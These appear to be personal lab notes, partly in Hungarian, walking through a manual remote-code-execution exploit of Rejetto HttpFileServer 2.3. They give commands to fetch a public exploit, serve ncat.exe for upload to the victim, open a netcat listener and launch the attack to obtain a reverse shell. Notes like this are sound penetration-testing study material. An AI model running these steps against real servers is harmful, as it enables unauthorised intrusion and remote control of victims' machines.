 # HFS HttpFileServer 2.3 (Rejetto)
## info
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
## manual exploitation
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* get exploit code
  * $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* $ mv ncat.exe nc.exe
  * rename netcat exe (in the exploit it is nc.exe, at github repo it is ncat.exe)
* $ python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* $ sudo nc -nvlp 443
  * ha 443-at akarunk hasznalni, akkor kell a 'sudo' mindenkepp ele!!!!!
  * ha masik portot akkor nem feltetlen (de akkor meg at kell irni azt az exploit-ban!!)
* $ python2.7 39161.py 10.10.10.2 80
  * ip and port of victim machine
  * python2.7-el mukodott csak (a tobbi python hibat dobott)
